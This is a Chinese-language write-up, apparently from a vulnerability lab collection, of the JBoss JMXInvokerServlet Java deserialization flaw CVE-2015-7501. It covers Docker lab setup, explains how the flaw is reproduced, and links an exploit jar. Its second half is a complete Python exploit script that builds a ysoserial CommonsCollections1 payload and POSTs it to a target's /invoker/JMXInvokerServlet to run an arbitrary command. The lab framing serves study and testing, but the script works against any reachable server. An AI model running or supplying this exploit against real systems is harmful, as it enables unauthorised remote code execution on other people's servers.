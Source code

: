 # JBoss JMXInvokerServlet 反序列化漏洞 CVE-2015-7501

## 漏洞描述

这是经典的JBoss反序列化漏洞，JBoss在`/invoker/JMXInvokerServlet`请求中读取了用户传入的对象，然后我们利用Apache Commons Collections中的Gadget执行任意代码。

参考文档：

- https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
- https://www.seebug.org/vuldb/ssvid-89723
- http://www.freebuf.com/sectool/88908.html
- https://paper.seebug.org/312/

## 环境搭建

Vulhub启动漏洞环境

```
docker-compose up -d
```

首次执行时会有1~3分钟时间初始化，初始化完成后访问`http://your-ip:8080/`即可看到JBoss默认页面。

![image-20220224144324655](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241443726.png)

## 漏洞复现

JBoss在处理`/invoker/JMXInvokerServlet`请求的时候读取了对象，所以我们直接将[ysoserial](https://github.com/frohoff/ysoserial)生成好的POC附在POST Body中发送即可。整个过程可参考JBoss 5.x/6.x 反序列化漏洞 CVE-2017-12149。

网上已经有很多EXP了，比如[DeserializeExploit.jar](https://cdn.vulhub.org/deserialization/DeserializeExploit.jar)，直接用该工具执行命令、上传文件即可。

## 漏洞EXP

```python
#! /usr/bin/env python2

# Jboss Java Deserialization RCE (CVE-2015-7501)
# Made with <3 by @byt3bl33d3r

from __future__ import print_function
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

import argparse
import sys, os
#from binascii import hexlify, unhexlify
from subprocess import check_output

ysoserial_default_paths = ['./ysoserial.jar', '../ysoserial.jar']
ysoserial_path = None

parser = argparse.ArgumentParser()
parser.add_argument('target', type=str, help='Target IP')
parser.add_argument('command', type=str, help='Command to run on target')
parser.add_argument('--proto', choices={'http', 'https'}, default='http', help='Send exploit over http or https (default: http)')
parser.add_argument('--ysoserial-path', metavar='PATH', type=str, help='Path to ysoserial JAR (default: tries current and previous directory)')

if len(sys.argv) < 2:
    parser.print_help()
    sys.exit(1)

args = parser.parse_args()

if not args.ysoserial_path:
    for path in ysoserial_default_paths:
        if os.path.exists(path):
            ysoserial_path = path
else:
    if os.path.exists(args.ysoserial_path):
        ysoserial_path = args.ysoserial_path

if ysoserial_path is None:
    print('[-] Could not find ysoserial JAR file')
    sys.exit(1)

if len(args.target.split(":")) != 2:
    print('[-] Target must be in format IP:PORT')
    sys.exit(1)

if not args.command:
    print('[-] You must specify a command to run')
    sys.exit(1)

ip, port = args.target.split(':')

print('[*] Target IP: {}'.format(ip))
print('[*] Target PORT: {}'.format(port))

gadget = check_output(['java', '-jar', ysoserial_path, 'CommonsCollections1', args.command])

r = requests.post('{}://{}:{}/invoker/JMXInvokerServlet'.format(args.proto, ip, port), verify=False, data=gadget)

if r.status_code == 200:
    print('[+] Command executed successfully')

```

